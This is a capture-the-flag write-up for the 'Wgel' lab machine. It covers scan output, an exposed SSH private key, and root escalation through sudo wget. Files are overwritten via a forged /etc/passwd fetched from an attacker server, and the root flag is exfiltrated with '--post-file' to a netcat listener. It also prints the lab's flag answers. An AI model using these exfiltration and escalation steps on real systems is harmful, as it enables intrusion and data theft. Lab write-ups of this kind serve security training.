

# Wgel CTF

* IP = 10.10.14.183

## Nmap scan report:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Gobuster scan report:
* Initial scan:
```bash
2022/06/21 00:05:23 Starting gobuster
=====================================================
/sitemap (Status: 301)
Progress: 7370 / 87666 (8.41%)
```
* Inside /sitemap scan:
```bash
2022/06/21 00:18:00 Starting gobuster
=====================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/.ssh (Status: 301)
/fonts (Status: 301)

```
* After we navigate to http://IP/sitemap/.ssh, we get an id_rsa file
* Download the private key and mark it only read-write by the user to use it as ssh private key
```bash
chmod 600 id_rsa
```

## Questions/Tasks:

1. User flag:

* In the main page we find some strange comments:<br>

* Presumably one user is *Jessie*
* SSH into the server using the private key and Jessie as the username
```bash
ssh -i id_rsa jessie@10.10.14.183
```
* Finding the flag file:
```bash
$ find | grep flag
./Documents/user_flag.txt
```

**Ans-057c67131c3d5e42dd5cd3075b198ff6**

2. Root flag:

* To escalate privileges first to check which commands can be run with sudo:
```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```
* Hence we can see wget can be run witsudo as Root
* Search for privilege escalation technique with the help of wget(The Challenge name also suggested that BTW!!😅😅)
  from <a href="https://gtfobins.github.io/">Gtfobins</a>:<br>

Option 1:(forge the /etc/passwd file and upload it to get root shell)
```bash
URL=http://attacker.com/file_to_get
LFILE=file_to_save
wget $URL -O $LFILE

```
* Copy the passwd file to local machine
* add known password hash to the first line of the file(create the hash with following script)
```python
import crypt
crypt.crypt("password")
```
* Launch an http server in the same directory:
```bash
python3 -m http.server
```
* Get the forged passwd file and write it to /etc/passwd:
```bash
sudo wget http://10.4.50.128:8000/passwd -O /etc/passwd
```
* The /etc/passwd gets overwritten
* Escalate to root by:
```bash
su root
```
* Navigate to /root and find the flag:<br>

Option 2:(directly read the file)<br>
```bash
LFILE=file_to_read
wget -i $LFILE
```
```bash
jessie@CorpOne:~$ sudo wget -i /root/root_flag.txt
--2022-06-21 06:17:24--  http://b1b968b37519ad1daa6408188649263d/
Resolving b1b968b37519ad1daa6408188649263d (b1b968b37519ad1daa6408188649263d)... failed: Name or service not known.
wget: unable to resolve host address ‘b1b968b37519ad1daa6408188649263d’
```

Option 3:(Post request to a server that runs locally)
```bash
URL=http://attacker.com/file_to_get
LFILE=file_to_save
sudo wget $URL -O $LFILE
```

* Start a netcat listener at some port
* Post request to local IP:Port
```bash
jessie@CorpOne:~$ sudo wget --post-file /root/root_flag.txt 10.4.50.128:5689
--2022-06-21 06:21:12--  http://10.4.50.128:5689/
Connecting to 10.4.50.128:5689... connected.
HTTP request sent, awaiting response...
```
* Receive the message:
```
→ nc -lnvp 5689
Listening on 0.0.0.0 5689
Connection received on 10.10.14.183 58010
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.4.50.128:5689
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d

```

**Ans-**
```
b1b968b37519ad1daa6408188649263d
```
